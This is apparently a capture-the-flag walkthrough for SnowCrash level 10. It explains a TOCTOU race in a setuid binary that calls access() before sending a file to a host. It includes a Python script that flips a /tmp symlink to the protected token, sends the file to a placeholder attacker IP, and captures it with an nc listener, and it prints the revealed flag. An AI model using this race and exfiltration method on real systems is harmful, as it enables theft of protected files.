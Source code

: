 # Level 10

Level 10 contains 2 files a binary and a token file

```bash
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

the token file is not readable by level10 user, let's try running the binary

```bash
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

it seems the binary checks if we have access to the file before sending it to the host, let's try to understand how it checks the access to the file, opening it in binary ninja:

![level10](assets/1.png)

we can see that the after the initial arguments check the binary proceeds call `access()` with the file we provided as arguments, if the call returns 0 the binary proceeds to create a socket connection and connect to the host provided in the arguments at port 6969, otherwise if the call is unsuccessfly a jump is made to the address `0x08048e47` which prints the message `You don't have access to token` and exits.

It is well known the use of the access function in this context can potentially introduce a security vulnerability known as a TOCTOU (Time-of-Check to Time-of-Use) race condition. This vulnerability arises when a resource's state is checked (e.g., file access) at one point and then used later, but the resource's state changes between the check and the use. This can be exploited to get the token file.

from the man page of access:
```
 Warning:  Using  access()  to  check  if  a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

We exploit this race condition by creating a symbolic link to the token file in the `/tmp` directory, then we run the binary with the symbolic link as argument and we change the symbolic link to point to the `/home/user/level10/token` file before the binary calls the `access()` function.

the following python script automates the process:

```python
import os
import sys
import time
import string
import threading

IP = 'ATTACK_MACHINE_IP'

def exploit():
    os.system("ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit")

def run():
    os.system('./level10 /tmp/exploit ' + IP)

while True:
    t = threading.Thread(target=exploit)
    t2 = threading.Thread(target=run)
    t.start()
    t2.start()
    time.sleep(0.1)
```

Running the exploit and listening on port 6969 we get the token:

```bash
level10@SnowCrash:~$ python2 exploit.py
```

on our attack box
```zsh
❯ nc -nlvk 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
ELF 4$4 	($!444  TTTT
```





